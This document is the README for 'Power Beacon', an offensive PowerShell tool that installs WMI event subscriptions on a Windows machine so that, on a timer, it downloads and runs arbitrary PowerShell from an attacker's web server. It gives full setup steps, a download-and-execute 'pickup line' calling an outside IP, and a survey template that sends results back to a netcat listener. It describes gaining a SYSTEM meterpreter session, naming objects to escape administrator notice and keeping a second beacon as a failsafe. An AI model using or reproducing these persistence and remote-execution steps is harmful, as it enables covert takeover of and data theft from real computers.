

Power Beacon uses WMI-Objects to create a persistent 'beacon' on a set timer.
Table of Contents
Walkthrough
Video Demo
Technical Details
Information
Work With: Windows
Requires: Powershell v2+, an elevated shell
Power Beacon
Use the script located at /dragonfire/bin/power_beacon/power_beacon.sh (alias=powerbeacon) to generate the powershell script used to install the WMI-Object, as well as an uninstall script.
Once the script is created, either run the commands directly in an administrative powershell window, or (more likely) use powershell to download and run the script into memory.
Power Beacon creates a WMI-Object that queries the current time every 10 seconds. If any time in the last 10 seconds matches the trigger time, the beacon is executed.
Upon execution, power beacon will call out to a pre-defined web address and consume whatever powershell script is located there. This can be anything from a meterpreter payload
to a list of commands to run. Included is a payload template that will run a series of situational awareness checks and return the results to a netcat listener.
You must use be running from an elevated process to install WMI-Objects
Walkthrough
Run /dragonfire/bin/power_beacon/power_beacon.sh You will need to provide some information to the script.
1. The address:port/filename for the beacon payload. This will where power beacon will call to request its payloads.
2. The name of the 'Filter.' This is the name for the WMI-Object that will watch for process creation. You can use ANY name, but use something smart. This will be visible to an administrator who knows how to find it.
3. The name of the 'Consumer.' This WMI-Object will hold the command to kill the process. Just like the 'Filter' it can be anything.
4. An output file. This is local.
5. A beacon interval.
Afterwords, you'll see the options again, press enter to create.
The script will create TWO files. The first (file_name) contains the powershell script to build the WMI-Objects. The second (file_name_remove) will delete the WMI-Objects, removing the effect.

Now we just need to execute this on our target system.
Start your python httpserver in the folder with your files.
python -m SimpleHTTPServer 8080 From an elevated command prompt, run your powershell pickup line.
powershell -c iex(New-Object Net.WebClient).DownloadString('http://192.168.142.134:8080/here')
To undo, just call the removal script instead.
powershell -c iex(New-Object Net.WebClient).DownloadString('http://192.168.142.134:8080/here_remove')
Now that the beacon is installed it will reach out to the web location you chose on it's interval and attempt to execute whatever powershell is there. If there is nothing listening nothing bad happens. Power
beacon will wait until its next cycle and call again.
If you lose the removal file you can create another by re-running power beacon with the same input.
Use Power Beacon to Run Commands & Return Results
There is a template file located at /dragonfire/bin/power_beacon/survey_template that can be used to execute commands and return their results. Make a copy of the template file
and edit it as needed. The commands will be running in powershell, so escape sequesnces and things are different. The template has some good examples, but if you
are trying anything strange be sure to test it first. The results are returned via a powershell tcp socket and can be captured by a netcat listener.
Use ncat -klvp [PORT] | tee [outputfile.txt] to start ncat listening persistently and show output on screen as well as saved to a file. Installation and usage demos are below.
Installation Demo
This video shows the steps to install the power beacon WMI objects. At the end of the video, power beacon is installed and beaconing. For usage, see the second video.
Remote Survey Demo
This video is using the installed power beacon from video one to pick up a survey script and return the results to our netcat listener.
Get Up with Meterpreter
This video is using the installed power beacon from video one to pick up a meterpreter powershell payload, giving us a SYSTEM level meterpreter session.
Technical Details
The technical details are the same (for the most part) as the tech details for process_disabler except this time we are filtering on and InstanceModificationEvent to Win32_LocalTime.
When the time changes the filter checks to see if the time matches our filter, and if so, the consumer triggers.
Can I Change the Beacon Interval?
No. The beacon interval is set when you install the WMI-Object. However, let's assume you have your beacon set for 1 hour, but you want it to lower to 1 minute. Don't worry, create a second
installer (making sure to use diffent filter and consumer name) configured for 1 minute. Then use your 1 hour beaconer to pick up the 1 minute installer. Now you have two beaconers installed. You can either
uninstall the 1 hour one now, or leave it as a failsafe.